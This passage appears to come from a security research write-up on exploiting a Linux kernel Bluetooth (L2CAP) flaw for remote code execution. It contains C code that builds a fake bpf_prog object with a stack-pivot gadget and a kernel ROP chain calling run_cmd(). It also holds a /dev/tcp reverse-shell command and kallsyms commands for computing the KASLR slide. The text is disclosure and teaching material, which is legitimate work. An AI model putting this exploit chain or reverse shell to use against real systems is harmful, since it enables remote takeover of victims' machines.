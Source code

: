 When choosing the stack pivot gadget as a function pointer for `bpf_func()` and triggering it, the value of RSI will be pushed onto stack, then popped from stack and finally assigned to RSP. In other words, the stack pointer will point to our payload, and once the `RET` instruction is executed, our ROP chain will kick off.

```
static void build_payload(uint8_t data[0x400]) {
  // Fake sk_filter object starting at offset 0x300.
  *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320;  // prog

  // Fake bpf_prog object starting at offset 0x320.
  // RBX points to the amp_mgr object.
  *(uint64_t *)&data[0x350] =
      kaslr_offset +
      PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET;  // bpf_func
  *(uint64_t *)&data[0x358] = 0xDEADBEEF;                   // rbp

  // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
  // Note that when executing the ROP chain, the data below in memory will be
  // overwritten. Therefore, the argument should be located after the ROP chain.
  build_krop_chain((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
  strncpy(&data[0x3c0], remote_command, 0x40);
}
```

With that, we have finally achieved RCE. To debug our stack pivot and see if we were successful, we can set `*(uint64_t *)&data[0x360]=0x41414141` and observe a controlled panic.

**Kernel ROP Chain Execution**

Now, we can either write a big ROP chain that retrieves and executes a C payload, or a smaller one that allows us to run an arbitrary command. For the sake of the Proof-Of-Concept, we are already satisfied with a reverse shell, thus executing a command is enough for us. Inspired by the ROP chain described in the write-up [CVE-2019-18683: Exploiting a Linux kernel vulnerability in the V4L2 subsystem](https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html), we will build a chain that calls `run_cmd()` with `/bin/bash -c /bin/bash</dev/tcp/IP/PORT` to spawn a reverse shell, and finally calls `do_task_dead()` to stop the kernel thread. After that, Bluetooth will no longer work. In a more sophisticated exploit, we would resume the execution.

To determine offsets for both methods, we can simply inspect the live symbols on the victim’s machine:

```
$ sudo cat /proc/kallsyms | grep "run_cmd\|do_task_dead"
ffffffffab2ce470 t run_cmd
ffffffffab2dc260 T do_task_dead
```

Here, the KASLR slide is 0x2a200000 which can be calculated by grep’ing for the `_text` symbol and subtracting `0xffffffff81000000`:

```
$ sudo cat /proc/kallsyms | grep "T _text"
ffffffffab200000 T _text
```
